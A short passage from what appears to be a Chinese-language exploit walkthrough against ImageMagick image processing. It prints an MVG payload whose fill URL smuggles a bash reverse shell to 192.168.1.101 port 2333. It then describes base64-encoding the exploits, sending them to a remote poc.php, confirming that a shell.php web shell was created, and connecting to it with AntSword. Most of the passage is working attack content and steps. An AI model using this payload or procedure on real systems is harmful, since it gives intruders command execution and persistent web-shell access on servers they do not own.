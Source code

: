 - 反弹 shell:
    ```bash
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.101/2333 0>&1")'
    pop graphic-context
    ```
将上述两个 `Exp` 经过 `base64 编码`后发送到远程 `poc.php`，querystring 的 key 为 img。

![](img/7.png)

发送后发现命令执行成功，生成了对应的shell.php

![](img/8.png)

使用蚁剑连接：
![](img/9.png)
